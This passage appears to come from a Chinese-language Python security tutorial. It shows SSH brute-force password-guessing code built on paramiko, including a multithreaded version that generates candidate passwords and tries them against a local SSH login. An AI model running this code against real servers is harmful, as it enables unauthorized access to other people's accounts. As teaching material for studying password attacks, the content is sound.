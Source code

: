 ```
            continue 
        except paramiko.SSHException, error: 
            print error 
            continue 
        except Exception, error: 
            print "Unknown error: "+error 
            continue     
        ssh.close() 

except Exception,error : 
    print error  

```

我们可以使用线程模块使此脚本成为多线程：

```
import paramiko, sys, os, socket, threading, time  
import itertools,string,crypt 

PASS_SIZE = 5 

def bruteforce_list(charset, maxlength): 
    return (''.join(candidate) 
        for candidate in itertools.chain.from_iterable(itertools.product(charset, repeat=i) 
        for i in range(1, maxlength + 1))) 

def attempt(Password): 

    IP = "127.0.0.1" 
    USER = "rejah" 
    PORT=22 

    try: 

        ssh = paramiko.SSHClient() 
        ssh.load_system_host_keys() 
        ssh.set_missing_host_key_policy(paramiko.MissingHostKeyPolicy()) 

        try: 
            ssh.connect(IP , port=PORT, username=USER, password=Password) 
            print "Connected successfully. Password = "+Password 
        except paramiko.AuthenticationException, error: 
            print "Incorrect password: "+Password 
            pass 
        except socket.error, error: 
            print error 
            pass 
        except paramiko.SSHException, error: 
            print error 
            print "Most probably this is caused by a missing host key" 
            pass 
        except Exception, error: 
            print "Unknown error: "+error 
            pass     
        ssh.close() 

    except Exception,error : 
        print error 

letters_list = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQSTUVWXYZ1234567890!@#$&()'  

```
